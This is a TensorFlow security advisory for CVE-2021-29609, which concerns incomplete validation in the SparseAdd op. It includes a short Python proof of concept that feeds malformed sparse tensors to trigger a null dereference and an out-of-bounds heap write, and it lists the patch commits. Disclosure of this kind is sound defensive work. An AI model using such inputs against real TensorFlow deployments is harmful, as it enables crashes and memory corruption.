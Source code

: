 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-096.md
## TFSA-2021-096: Incomplete validation in `SparseAdd`

### CVE Number
CVE-2021-29609

### Impact
Incomplete validation in `SparseAdd` results in allowing attackers to exploit
undefined behavior (dereferencing null pointers) as well as write outside of
bounds of heap allocated data:

```python
import tensorflow as tf

a_indices = tf.zeros([10, 97], dtype=tf.int64)
a_values = tf.zeros([10], dtype=tf.int64)
a_shape = tf.zeros([0], dtype=tf.int64)

b_indices = tf.zeros([0, 0], dtype=tf.int64)
b_values = tf.zeros([0], dtype=tf.int64)
b_shape = tf.zeros([0], dtype=tf.int64)

thresh = 0

tf.raw_ops.SparseAdd(a_indices=a_indices,
                    a_values=a_values,
                    a_shape=a_shape,
                    b_indices=b_indices,
                    b_values=b_values,
                    b_shape=b_shape,
                    thresh=thresh)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/656e7673b14acd7835dc778867f84916c6d1cac2/tensorflow/core/kernels/sparse_add_op.cc)
has a large set of validation for the two sparse tensor inputs (6 tensors in
total), but does not validate that the tensors are not empty or that the second
dimension of `*_indices` matches the size of corresponding `*_shape`. This
allows attackers to send tensor triples that represent invalid sparse tensors to
abuse code assumptions that are not protected by validation.

### Patches
We have patched the issue in GitHub commit
[6fd02f44810754ae7481838b6a67c5df7f909ca3](https://github.com/tensorflow/tensorflow/commit/6fd02f44810754ae7481838b6a67c5df7f909ca3)
followed by GitHub commit
[41727ff06111117bdf86b37db198217fd7a143cc](https://github.com/tensorflow/tensorflow/commit/41727ff06111117bdf86b37db198217fd7a143cc).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
